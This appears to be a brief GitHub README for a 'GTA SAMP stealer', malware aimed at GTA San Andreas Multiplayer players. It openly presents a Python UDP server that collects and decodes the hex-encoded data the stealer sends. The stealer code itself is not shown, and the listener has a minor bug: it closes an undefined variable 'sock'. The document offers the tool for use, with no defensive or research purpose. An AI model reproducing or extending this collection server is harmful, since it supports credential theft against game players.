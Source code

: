 # There is example of GTA SAMP stealer.
---
#### To receive data you need simple UDP server, like this:
```python
import socket

SERVER_ADDRESS = ('127.0.0.1', 8081)

server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_socket.bind(SERVER_ADDRESS)

while True:
    data = server_socket.recv(1024)
    if not data:
        break

    data = bytes.fromhex(data.decode()).decode('utf-8')
    print(data)
  
sock.close()
```